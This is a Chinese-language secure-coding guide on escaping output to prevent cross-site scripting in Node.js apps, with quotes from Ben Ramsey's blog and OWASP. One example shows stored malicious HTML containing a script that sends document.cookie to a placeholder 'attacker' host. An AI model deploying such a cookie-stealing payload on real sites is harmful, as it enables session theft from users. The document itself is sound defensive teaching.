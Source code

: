 # 转义输出

### 一段解释

HTML和其他web语言将内容与可执行代码混合在一起 - 单个HTML段落可能包含数据的可视化表示以及JavaScript执行指令。在呈现HTML或从API返回数据时, 我们认为纯内容实际上可能会嵌入Javascript代码, 这些代码将由浏览器解释和执行。例如, 当我们呈现攻击者插入到数据库的内容时, 就会发生这种情况 - 例如 `<div><script>//malicious code</script></div>`。这可以通过指示浏览器将任何不受信任的数据块仅视为内容, 而从不解释它来缓解 - 这种技术称为转义。许多npm库和HTML模板引擎提供了转义功能(例如: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi))。不仅应该转义HTML内容, 而且CSS和Javascript也应该被转义。


### 代码示例 - 不要将不受信任的数据放入html中 

```javascript
<script>...NEVER PUT UNTRUSTED DATA HERE...</script>   directly in a script
 
 <!--...NEVER PUT UNTRUSTED DATA HERE...-->             inside an HTML comment
 
 <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       in an attribute name
 
 <NEVER PUT UNTRUSTED DATA HERE... href="/test" />   in a tag name
 
 <style>...NEVER PUT UNTRUSTED DATA HERE...</style>   directly in CSS

```

### 代码示例 - 恶意内容可能会注入到数据库中

```javascript
<div>
  <b>A pseudo comment to the a post</b>
  <script>
    window.location='http://attacker/?cookie='+document.cookie
</script>
</div>

```

<br/><br/>

### 博客引用: "当我们不希望字符被解释"

摘自博客[benramsey.com](https://benramsey.com/articles/escape-output/)
> 数据可能会以HTML的形式离开应用程序而被发送到Web浏览器，同理，SQL发送到数据库，XML发送到RSS读取器，WML发送到无线设备等。可能性是无限的。其中每一个都有自己的一组特殊字符, 对这些字符的解释不同于接收到的其他纯文本。有时我们希望发送这些特殊字符, 以便对其进行解释 (例如, HTML标签发送到Web浏览器), 而有时 (从用户或其他来源的输入的情况下), 我们不希望这些字符被解释, 因此我们需要转义他们。

> 转义有时也称为编码。简而言之, 它是以不会执行或解释数据的方式表示数据的过程。例如, HTML将在Web浏览器中以粗体文本呈现以下文本，因为<strong>标签有特殊的含义: 
<strong>This is bold text.</strong>
但是, 假设我想在浏览器中呈现标签, 并避免对它们的解释。这样, 我需要转义在HTML中具有特殊含义的尖括号。下面说明了转义的HTML:

&lt;strong&gt;This is bold text.&lt;/strong&gt;


<br/><br/>

### Blog Quote: "OWASP recommends using a security-focused encoding library"

From the blog OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "Writing these encoders is not tremendously difficult, but there are quite a few hidden pitfalls. For example, you might be tempted to use some of the escaping shortcuts like \" in JavaScript. However, these values are dangerous and may be misinterpreted by the nested parsers in the browser. You might also forget to escape the escape character, which attackers can use to neutralize your attempts to be safe. **OWASP recommends using a security-focused encoding library to make sure these rules are properly implemented**."


<br/><br/>

### Blog Quote: "You MUST use the escape syntax for the part of the HTML"

From the blog OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "But HTML entity encoding doesn't work if you're putting untrusted data inside a <script> tag anywhere, or an event handler attribute like onmouseover, or inside CSS, or in a URL. So even if you use an HTML entity encoding method everywhere, you are still most likely vulnerable to XSS. You MUST use the escape syntax for the part of the HTML document you're putting untrusted data into."